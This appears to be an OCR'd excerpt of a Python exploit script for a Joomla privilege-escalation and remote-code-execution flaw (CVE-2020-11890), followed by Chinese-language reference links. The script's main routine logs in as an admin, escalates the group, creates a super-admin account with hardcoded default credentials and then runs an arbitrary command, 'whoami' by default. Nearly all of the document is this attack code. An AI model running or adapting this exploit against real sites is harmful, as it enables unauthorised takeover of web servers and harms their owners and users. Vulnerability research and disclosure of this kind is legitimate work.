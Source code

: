 ```python
    # Add the arguments to the parser
    ap.add_argument("-url", "--url", required=True,
                    help=" URL for your Joomla target")
    ap.add_argument("-u", "--username", required=True,
                    help="username")
    ap.add_argument("-p", "--password", required=True,
                    help="password")
    ap.add_argument("-usuper", "--usernamesuper", default="hk",
                    help="Super's username")
    ap.add_argument("-psuper", "--passwordsuper", default="12345678",
                    help="Super's password")
    ap.add_argument("-esuper", "--emailsuper", default="hk@hk.com",
                    help="Super's Email")
    ap.add_argument("-cmd", "--command", default="whoami",
                    help="command")
    args = vars(ap.parse_args())
    # target
    url = format(str(args['url']))
    print '[+] Your target: ' + url
    # username
    uname = format(str(args['username']))
    # password
    upass = format(str(args['password']))
    # command
    command = format(str(args['command']))
    # username of superadmin
    usuper = format(str(args['usernamesuper']))
    # password of superadmin
    psuper = format(str(args['passwordsuper']))
    # email of superadmin
    esuper = format(str(args['emailsuper']))
    # session
    sess = requests.Session()
    if not try_admin_login(sess, url, uname, upass): sys.exit()
    token = checkAdmin(url, sess)
    if not changeGroup(url, sess, token):
        print "[-] Sorry,exploit fail!"
        sys.exit()
    sess = create_user(url, sess, usuper, psuper, esuper, token)
    token = checkSuperAdmin(url, sess)
    # Now you are Super-admin
    if token:
        # call RCE
        changeGroupDefault(url, sess, token)  # easy to view :))
        rce(sess, url, command, token)


if __name__ == "__main__":
    sys.exit(main())
```


参考链接

https://xz.aliyun.com/t/7709#toc-1
https://github.com/HoangKien1020/CVE-2020-11890